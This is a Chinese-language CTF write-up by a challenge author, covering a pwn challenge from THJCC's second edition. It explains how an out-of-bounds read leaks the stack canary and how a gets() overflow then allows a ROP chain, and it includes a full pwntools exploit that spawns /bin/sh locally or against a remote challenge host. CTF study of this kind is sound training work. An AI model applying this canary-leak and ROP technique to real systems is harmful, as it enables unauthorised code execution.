 # CTF 比賽出題初體驗

## 簡介

這次擔任 `THJCC 第二屆` 的出題者  
算是我第一次正式出題的體驗
題目有不好的地方就請見諒

~~比賽前一天發現自己把題解刪掉了，害我連夜重寫一份 exploit~~

## writeup

這題大概的解法就是在 `darling` 函式中有 `OOB` 可以 leak canary
leak canary 之後可以在 `main` 最後 `gets` 構建 rop chain  

### Step 1

用 ida 直接反組譯後可以看到第一步就是要輸入 `Darling in the FRANXX`  

### Step 2

跳轉到 `darling` 函式後有一個很明顯的 `OOB`  
可以分別輸入 `14` `15` 來得到兩段 canary  

### Step 3

用剛剛得到的 canary 值就可以放心 overflow  
構建 rop chain 後就大功告成

### Exploit

```python
from pwn import *
import sys

context.log_level = "debug"
context.terminal = ["wt.exe", "wsl.exe"]
context.arch = "amd64"

exe = context.binary = ELF("./chal")

if len(sys.argv) == 1:
    r = process("./chal")
    if args.GDB:
        gdb.attach(r)
elif len(sys.argv) == 3:
    r = remote(sys.argv[1], sys.argv[2])
else:
    print("Usage: python3 {} [GDB | REMOTE_IP PORT]".format(sys.argv[0]))
    sys.exit(1)


r.sendlineafter(b'> ', b'Darling in the FRANXX')

r.sendlineafter(b'> ', b'15')
upper = r.recvline().decode().split()[1]
r.sendlineafter(b'> ', b'14')
lower = r.recvline().decode().split()[1]

canary = int(upper+lower, 16)
success(f"canary: {hex(canary)}")

"""
rax = 0x3b
rdi = /bin/sh\x00
rsi = 0
rdx = 0

0x0000000000434bbb : pop rax ; ret
0x0000000000433f95 : mov qword ptr [rsi], rax ; ret
0x000000000041fcf5 : pop rsi ; ret
0x00000000004571e7 : pop rbx ; ret
0x0000000000494253 : pop rdi ; ret
0x0000000000432f5b : mov rdx, rbx ; syscall
"""
pop_rax = 0x434bbb
mov_rsi_rax = 0x433f95
pop_rsi = 0x41fcf5
pop_rbx = 0x4571e7
mov_rdx_rbx = 0x432f5b
pop_rdi = 0x494253

rop = b''
rop += b'a'*56
rop += p64(canary)
rop += p64(0)
rop += p64(pop_rax)
rop += b'/bin/sh\x00'
rop += p64(pop_rsi)
rop += p64(0x4cccc0)  # somewhere writable
rop += p64(mov_rsi_rax)  # set /bin/sh
rop += p64(pop_rbx)
rop += p64(0)
rop += p64(pop_rax)  # set rax
rop += p64(0x3b)
rop += p64(pop_rdi)  # set rdi
rop += p64(0x4cccc0)
rop += p64(pop_rsi)
rop += p64(0)
rop += p64(mov_rdx_rbx)  # set rdx

r.sendlineafter(b'> ', rop)

r.interactive()
```
